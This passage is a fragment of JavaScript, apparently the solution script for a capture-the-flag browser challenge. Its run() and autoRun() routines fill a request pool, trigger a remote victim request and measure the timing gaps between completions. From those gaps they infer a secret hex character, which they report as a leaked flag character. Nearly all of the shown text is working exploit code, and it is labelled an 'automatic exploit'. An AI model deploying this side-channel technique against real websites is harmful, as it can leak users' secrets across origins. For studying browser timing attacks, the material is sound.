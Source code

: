 ```html
        const MAD = medAbsDevs[Math.floor(medAbsDevs.length / 2)] || 1;

        let best = gaps.reduce((a, b) => a.ms >= b.ms ? a : b, { ms: -1 });
        const thresh = Math.max(minGap, median + 3 * MAD);

        const ok = best.ms >= thresh;
        return { chars, gaps, best, ok, median, MAD, thresh };
    }

    async function run() {
        round++; times.clear();

        // queue our 16 hex characters (all pending while pool full)
        for (let i = 0; i < HEX_CHARS.length; i++) {
            queueChar(HEX_CHARS[i]);
        }

        // fire victim slightly before fuse so everything is pending together
        const lead = 50;
        await Z(Math.max(0, fuseAt - performance.now() - lead));
        triggerRemote();

        // WAIT UNTIL WE HAVE ALL 16 (or until generous deadline)
        const maxWait = +document.getElementById('maxwait').value || 30000;
        const t0 = performance.now();
        while (times.size < 16 && performance.now() - t0 < maxWait) {
            await Z(10);
        }

        const { chars, gaps, best, ok, median, MAD, thresh } = analyze();
        L(`median=${median.toFixed(0)} ms, MAD=${MAD.toFixed(0)} ms, threshold=${thresh.toFixed(0)} ms`);
        if (!ok) {
            L('⇒ inconclusive (raise Max wait / Fuse, or rerun)');
            return null;
        }
        const [LHS, RHS] = best.between.split('-');
        L(`⇒ victim inserted between ${LHS} and ${RHS} (max gap ${best.ms.toFixed(0)} ms)`);
        L(`✓ Remote character is: ${LHS}`);

        // Report the discovered character
        await reportFlag(LHS);

        return LHS;
    }

    async function autoRun() {
        L('🚀 Starting automatic exploit...');

        // Step 1: Prepare
        await prep();
        await Z(500);

        // Step 2: Fill
        await fill();
        await Z(500);

        // Step 3: Run detection
        const leakedChar = await run();

        if (leakedChar) {
            L(`✅ Successfully leaked character: ${leakedChar}`);
            L(`📋 Current flag: ${flag}`);
```
